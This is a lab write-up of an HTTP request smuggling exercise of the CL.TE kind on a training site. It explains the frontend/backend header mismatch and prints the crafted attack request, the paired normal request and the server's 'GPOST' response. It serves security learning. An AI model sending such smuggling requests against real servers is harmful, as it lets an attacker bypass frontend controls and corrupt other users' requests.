 ## 1. Introduction

This vulnerability is when the frontend uses the Content-Length header and the backend server uses the Transfer-Encoding header.

So, this means that the frontend server processes the CL and determines the size of the body, while the backend processes the TE and treats the message body as using chunked encoding.

For these attacks Burp Suite will be used.

## 2. Challenge

Fronted doesn't support chunked encoding, and rejects requests that aren't using GET or POST.

Smuggle a request to the backend server, so the next request processed by the backend appears to use the method GPOST.

## 3. Solution

For this I will create two requests, one as an "attack request" and one "normal request".

For both of them we need to use HTTP/1.1

Normal request:

```http
POST / HTTP/1.1
Host: 0a2a00f1046937b78042f3fd00e600ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Attack request:

```http
POST / HTTP/1.1
Host: 0a2a00f1046937b78042f3fd00e600ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

And the response is:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

## 4. Explanation

Since the frontend processes Content-Length, in the Attack Request we need to disable the automatic updating of the CL, because we want to control the body that we are sending.

In our case the length of the body is 6 bytes, so we set the CL to 6.

There we add also the Transfer-Ecoding to chunked, because we want to control also how the backed proceeds our request.

So, the backend now will think that the first request will end at "0", and the remaining part (our case just the G), will be counted by the backend as the start of the next request.

After this is proceeded by the backend we send the normal request, and the backend will append it to the remainders of the attack request (G), so the method will be set to GPOST.